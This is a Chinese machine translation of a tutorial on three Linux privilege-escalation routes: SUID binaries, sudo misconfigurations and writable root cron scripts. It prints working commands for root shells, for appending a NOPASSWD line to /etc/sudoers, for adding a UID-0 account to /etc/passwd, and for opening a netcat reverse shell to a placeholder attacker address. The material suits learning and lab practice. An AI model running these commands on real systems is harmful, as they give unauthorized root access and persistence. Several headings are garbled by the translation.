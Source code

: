 # Linux 权限提升——获得根 Shell 的三种简单方法

> 原文：<https://medium.com/codex/linux-privilege-escalation-three-easy-ways-to-get-a-root-shell-255a71fcf2a0?source=collection_archive---------9----------------------->

一旦你获得了对一个 **Linux** 系统的访问权，下一个合乎逻辑的步骤就是执行**权限提升**。也就是说，从具有有限权限的用户帐户变为具有全部权限的超级用户帐户。

有许多选项可以帮助您实现这一点，从简单易行的技术到更高级但不太容易执行的更复杂的技术。在本文中，我们将探索您可以使用的三个最简单的选项。

![](img/589879fb1aa19a525253e895ee060487.png)

这里列出的技术都是唾手可得的，你可以先检查一下。只有在所有这些选择都失败后，你才能尝试更先进的技术。

根据目标主机的安全配置，其中一些技术可能不起作用。但有时，管理员的一个错误就足以让您找到根。

# SUID 双星

一个 **SUID** 是某些可执行文件可能拥有的特殊权限。当文件设置了 SUID 位时，用户可以使用与其所有者相同的权限执行该文件。

SUID 二进制文件由文件权限第四位的“s”字符标识。正如您在下面看到的，' *passwd* '文件是一个 SUID 二进制文件。

![](img/63e456ee175894321f607d45f5b54380.png)

您可以看到我们如何利用这一点，尝试通过 root 用户或拥有更高权限的用户拥有的 SUID 二进制文件生成一个 shell。

## 利用 SUID 二进制文件

易受攻击的 SUID 二进制文件的一个例子是' *python* '命令。如果您发现与此命令相关联的二进制文件上设置了 SUID 位，那么您可以通过运行以下命令轻松执行权限提升:

```
$ ./python -c 'import os;os.system("/bin/sh -p")'
```

当然，您应该首先将当前目录更改为 python 二进制文件所在的位置。

如果成功，您将获得一个提升权限的外壳。您可以通过执行' *whoami'* 命令来验证这一点。

这里提供的 *python* 命令只是作为一个例子，帮助您更好地掌握这项技术。因此，您不应该期望它在您的目标主机上被配置为 SUID 二进制文件，因此，上面的命令可能不起作用。

但是，您可以做的和应该做的第一件事是在系统上搜索所有 SUID 二进制文件。为此，您可以运行下面的 [find](https://patchthenet.com/tutorials/linux/chapter-6-find-files-in-linux/) 命令:

```
find / -type f -perm -u=s 2>/dev/null
```

一旦您有了所有 SUID 二进制文件的列表，您就可以访问 [GTFOBins](https://gtfobins.github.io/) 来检查那些容易受到特权提升攻击的文件。该网站还将为您提供运行每个易受攻击的 SUID 二进制文件的确切命令。

GTFOBins 是一个非常好的 Linux 权限提升资源。您应该将它保存在您的书签中，因为您将来在 Linux 系统上尝试权限提升时肯定会用到它。

# SUDO 司令部

要以 root 用户身份运行一个命令，通常需要在实际命令之前先输入' *sudo* '。

然而，并不是每个用户都有权运行 **SUDO** 。用户对该命令的具体权限存储在 */etc/sudoers* 中。该文件列出了用户可以使用 SUDO 运行的命令。它还指定他们是否需要密码才能这样做。

## 剥削 SUDO

您可以使用以下命令检查当前用户的权限:

```
$ sudo -l
user ALL=(ALL) NOPASSWD:ALL
```

如果这个命令的输出类似于上面的内容，那么您非常幸运，因为这一行授予您使用 SUDO 运行任何命令的权限，而无需提供密码。

但是老实说，这在现实世界中太容易发生了，除了一些容易入门的 CTF。

另一方面，您可能会更经常地发现类似如下的内容:

```
(root) NOPASSWD: /usr/bin/find
```

在这种情况下，您只能用 *find* 命令运行 SUDO，并且您仍然不需要密码。

你可能认为 *find* 在你寻求特权的过程中不会有太大的帮助。嗯，……在这种情况下，你就错了。其实，*找*绰绰有余。

如果我们引用 [GTFOBins](https://gtfobins.github.io/) ，我们可以使用 *find* 获得完整的命令来生成 shell:

```
sudo find . -exec /bin/sh \; -quit
```

我在这里提供 find 作为一个例子。这对于许多其他命令也是有效的。您可以检查 GTFOBins，看看哪些容易受到这种技术的攻击，以及如何使用每个 GTFOBins 来获得根 shell。

# 克朗·乔布斯

Cron 是一个运行在大多数 Linux 系统上的任务调度程序，类似于 Windows 中的任务调度程序。它允许用户安排某些程序和脚本定期运行，而不必手动执行它们。

Cron 在自动化任务方面非常有用，例如运行恶意软件扫描、检查更新或创建定期备份。

然而，从攻击者的角度来看，如果配置不当，Cron 可能是权限提升的潜在媒介。让我们看看我们能做些什么。

Cron 可以使用某些名为“crontabs”的文件进行定制。这些文件告诉 Cron 要执行什么作业以及何时执行。

每个作业都在一行中定义，第一组列指定它应该运行的时间，最后一列指定要执行的命令或程序路径。

![](img/a0736189e9279503213b8ce3d6b44134.png)

一个特殊的 Crontab 位于/etc/crontab，用于调度系统范围的作业。该文件中安排的所有作业都由 Cron 以 root 权限执行。

## 剥削 Cron 工作

如果我们使用 *cat* 查看 */etc/crontab* 的内容，并且我们发现当前用户可以写一个脚本，那么我们可以修改它来做各种事情来提升我们的权限。

例如，假设您有一个包含以下行的 crontab 文件:

```
*/5 * * * * root /writable/script.sh
```

按照这一行， *script.sh* 每 5 分钟运行一次。您在该文件中添加的任何命令都将以 root 用户身份执行。我们可以从这里开始有许多方法:

*   您可以在 sudoers 文件中添加一行，授予当前用户在没有密码的情况下运行 SUDO 的权限。

```
echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

*   或者，您可以通过连接回攻击机器上的侦听器来生成反向 shell。

```
nc <IP-Address> <Port> -e /bin/sh
```

*   您甚至可以在 */etc/passwd* 中添加一个新的 root 用户，方法是提供一个 UID 值 0 (UID 是第三个字段，与 root 相关联)。

```
echo "newRoot::0:0:newRoot:/home/newRoot:/bin/sh" >> /etc/passwd
```

# 结论

Linux 权限提升不是一件容易的事情。应用这些技术并不总是像这里介绍的那样简单。有时候，它们都不起作用。但这是一件好事，因为这将推动你探索新的技术，这些技术将被证明是有用的，而其他人不会。

*原载于 2021 年 7 月 30 日 https://patchthenet.com**的* [*。*](https://patchthenet.com/articles/linux-privilege-escalation-three-easy-ways-to-get-a-root-shell/)